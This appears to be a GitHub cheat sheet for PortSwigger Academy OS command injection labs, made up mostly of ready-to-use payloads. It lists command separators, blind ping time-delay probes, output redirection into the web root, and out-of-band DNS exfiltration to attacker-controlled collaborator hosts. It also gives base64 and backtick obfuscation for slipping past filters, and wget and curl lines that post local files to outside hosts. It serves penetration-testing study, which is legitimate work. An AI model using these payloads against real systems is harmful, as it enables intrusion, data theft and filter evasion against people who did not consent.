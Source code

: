 # Command Injection

## Summary

* [General Recon For Comamnd Injection Vulnerabilities](#recon)

  
* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

  
   * [Obfuscation Related Payloads](#obfuscation-payloads)

<br>

## Resources

* https://portswigger.net/web-security/os-command-injection
* https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection

<br>

## Recon

* First step is to perform application mapping and identify any instances where the application appears to be interacting with the underlying OS by calling external processes or accessing the filesystem.  
* The application may issue OS system commands containing any item of user supplied data (every URL, parameters, cookies, etc.).  It’s recommended to probe all these instances for OS Command Injection.

<br>

---
---

## Cheat Sheet

### Background Knowledge

* The characters ; | & and newline(URL encoded -> %0a) can be used to batch multiple commands one after another.  Each of these characters should be used when probing for command injection vulnerabilities, as the application may reject some inputs but accept others.

* The backtick \` character can also be used to encapsulate a separate command within a data item being processed by the original command.  This will cause the interpreter to execute this command first before continuing to execute the remaining command String: 

```bash
nslookup `whoami`.server-you-control.net
```

<br>

* Other useful commands to know:  https://portswigger.net/web-security/os-command-injection#useful-commands

* Ways of injecting OS commands:  https://portswigger.net/web-security/os-command-injection#ways-of-injecting-os-commands

Note:   Note that the different shell metacharacters have subtly different behaviors that might affect whether they work in certain situations, and whether they allow in-band retrieval of command output or are useful only for blind exploitation.

Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to terminate the quoted context (using " or ') before using suitable shell metacharacters to inject a new command.

<br>

### Example

* Many times the injected characters need to be encoded, since they can interfere with the structure of the URL/body parameters.

  * For example, below the & and {space} characters need to be URL encoded (%26 and %20) in order to be treated as part of the injection payload:

![Command Injection](https://github.com/ChrisM-X/PortSwigger-Academy-CheatSheets/blob/master/Command%20Injection/Images/CommandInjection-1.png)

<br>

### Simple Command Injection

```bash
& echo test123 &
```

<br>

### Blind Command Injection

* Many times, the results of the injected commands are not returned in the application responses.  If that is the case, we can use the ping command to trigger a time delay in the application’s response by causing the server to ping its loopback interface for a specific time period.

* To maximize chances of identifying OS Command Injection if the application is filtering certain command separators, submit each of the following payloads to each input fields and analyze the time taken for the application to respond:

```bash
| ping -i 30 127.0.0.1 |
```

```bash
email=x||ping+-c+10+127.0.0.1||
```

```bash
| ping -n 30 127.0.0.1 |
```

```bash
& ping -i 30 127.0.0.1 &
```

```bash
& ping -n 30 127.0.0.1 &
```

```bash
; ping -i 30 127.0.0.1 ;
```

```bash
%0a ping -i 30 127.0.0.1 %0a
```

```bash
` ping 127.0.0.1 `
```

<br>

### Output Redirection

* We can also redirect a commands output to a file using the > character.  The below example redirects the output of the OS command to a file <u>within the web root</u>, then we can access the file to view the contents through our browser.

```bash
; whoami > /var/www/images/test;
```
```bash
email=||whoami>/var/www/images/output.txt||
```
<br>

### Out-of-band channel payloads

#### Network Interaction
```bash
email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||
email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||
```
```bash
; nslookup server-you-control ;
```

```bash
& nslookup server-you-control &
```

<br>

#### Reverse Shells
* https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

<br>

#### DNS Data Exfiltration
* Using backticks \`_command_\` and $(_command_)

```bash
; nslookup $(whoami).server-you-control ;
```

```bash
; nslookup `whoami`.server-you-control ;
```

<br><br><br>

### Obfuscation Payloads:

The goal here was to learn how the following payload can be obfuscated, to bypass filters for data exfiltration.

The payloads can be combined when exploiting Template Injection or other vulnerabilities that use OS Command injection.

<br>

  * Original Payload:
    
```
||nslookup+$(cat+/etc/hostname).fp8v70vp.oastify.com||
```

<br>

  * Obfuscation - Using the "echo" command to help obfuscate the word "hostname"

```
||nslookup+$(cat+/etc/ho`echo+'stname'`).fp8w54v70vp.oastify.com||
```

<br>

  * Obfuscation - Using base64 encoding to "hide" the file name "/etc/hostname"
    
```
||nslookup+$(cat+`echo+'L2V0Yy9ob3N0bmFtZQ=='+|+base64+--decode`).fp8v70vp.oastify.com||
```

  * Decoded payload
```
||nslookup $(cat `echo 'L2V0Yy9ob3N0bmFtZQ==' | base64 --decode`).fp8w70vp.oastify.com||
```

<br>

* Obfuscation - Using base encoding to "hide" the whole command "cat /etc/hostname"

```
||nslookup+$(`echo+'Y2F0IC9ldGMvaG9zdG5hbWU='+|+base64+--decode`).er9v70tk9lz9o.oastify.com||
```

<br><br>

* Other methods to achieve data exfiltration:

```
nslookup -q=cname $(cat /home/test).burp.oastify.com
```

```
wget http://burp-collab.com --post-file=/home/test
```

```
curl http://wcq0jo8.oastify.com -d @/home/test
```

<br><br><br>

### Pending to complete labs that are missing from cheat sheet:

* All labs in this category are completed and referenced in cheat sheet.

